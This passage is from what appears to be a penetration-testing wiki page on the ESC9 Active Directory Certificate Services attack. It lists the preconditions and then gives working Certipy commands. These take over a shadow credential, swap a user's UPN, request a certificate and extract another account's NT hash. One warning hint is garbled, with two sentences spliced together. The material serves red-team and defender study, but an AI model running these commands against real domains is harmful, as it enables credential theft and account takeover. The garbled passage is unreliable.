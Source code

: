 Here are the requirements to perform ESC9:

* `StrongCertificateBindingEnforcement` not set to `2` (default: `1`) or `CertificateMappingMethods` contains `UPN` flag (`0x4`)
* The template contains the `CT_FLAG_NO_SECURITY_EXTENSION` flag in the `msPKI-Enrollment-Flag` value
* The template specifies client authentication
* `GenericWrite` right against any account A to compromise any account B

{% hint style="warning" %}
Acate can then be used with to obtain a TGT and authenticat the time of writting (06/08/2022), there is no solution as a low privileged user to read the `StrongCertificateBindingEnforcement` or the `CertificateMappingMethods` values. It is worth to try the attack hopping the keys are misconfigured.
{% endhint %}

{% tabs %}
{% tab title="UNIX-like" %}
From UNIX-like systems, [Certipy](https://github.com/ly4k/Certipy) (Python) can be used to enumerate for, and conduct, the ESC9 scenario.

In this scenario, **user1** has `GenericWrite` against **user2** and wants to compromise **user3**. **user2** is allowed to enroll in a vulnerable template that specifies the `CT_FLAG_NO_SECURITY_EXTENSION` flag in the `msPKI-Enrollment-Flag` value.

First, the **user2**'s hash is needed. It can be retrieved via a [Shadow Credentials](../kerberos/shadow-credentials.md) attack, for example.

```bash
certipy shadow auto -username "user1@$DOMAIN" -p "$PASSWORD" -account user2
```

Then, the `userPrincipalName` of **user2** is changed to **user3**.

```bash
certipy account update -username "user1@$DOMAIN" -p "$PASSWORD" -user user2 -upn user3
```

The vulnerable certificate can be requested as **user2**.

```bash
certipy req -username "user2@$DOMAIN" -hash "$NT_HASH" -target "$ADCS_HOST" -ca 'ca_name' -template 'vulnerable template'
```

The **user2**'s UPN is changed back to something else.

```bash
certipy account update -username "user1@$DOMAIN" -p "$PASSWORD" -user user2 -upn "user2@$DOMAIN"
```

Now, authenticating with the obtained certificate will provide the **user3**'s NT hash during [UnPac the hash](../kerberos/unpac-the-hash.md). The domain must be specified since it is not present in the certificate.

```bash
certipy auth -pfx 'user3.pfx' -domain "$DOMAIN"
```

{% hint style="info" %}
By default, Certipy uses LDAPS, which is not always supported by the domain controllers. The `-scheme` flag can be used to set whether to use LDAP or LDAPS
{% endhint %}
{% endtab %}
